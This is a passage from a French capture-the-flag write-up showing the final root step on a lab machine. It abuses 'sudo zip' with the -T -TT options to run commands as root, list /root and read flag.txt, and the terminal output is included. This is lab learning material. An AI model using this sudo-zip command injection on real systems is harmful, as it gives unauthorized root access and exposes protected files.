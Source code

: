 Plus qu'à récupérer le flag :  

```plain
zico@zico:~$ sudo zip archive /etc/issue -T -TT "ls /root -al"
  adding: etc/issue (stored 0%)
-rw------- 1 root root  169 Oct 20 16:44 zifzgKZx

/root:
total 44
drwx------  4 root root 4096 Jun 19 11:59 .
drwxr-xr-x 24 root root 4096 Jun  1 18:54 ..
-rw-------  1 root root 5723 Jun 19 12:09 .bash_history
-rw-r--r--  1 root root 3106 Apr 19  2012 .bashrc
drwx------  2 root root 4096 Jun  1 20:15 .cache
-rw-r--r--  1 root root   75 Jun 19 11:55 flag.txt
-rw-r--r--  1 root root  140 Apr 19  2012 .profile
drwxr-xr-x  2 root root 4096 Jun  8 14:02 .vim
-rw-------  1 root root 5963 Jun 19 11:59 .viminfo
test of archive.zip OK

zico@zico:~$ sudo zip archive /etc/issue -T -TT "cat /root/flag.txt"
  adding: etc/issue (stored 0%)
#
#
#
# ROOOOT!
# You did it! Congratz!
#
# Hope you enjoyed!
#
#
#
#
```

Cette solution est sans doute un peu maladroite dans le sens où il suffit de zipper le dossier /root puis le dézipper pour récupérer le flag. Mais c'était plus marrant de cette manière :)

*Published October 20 2017 at 20:10*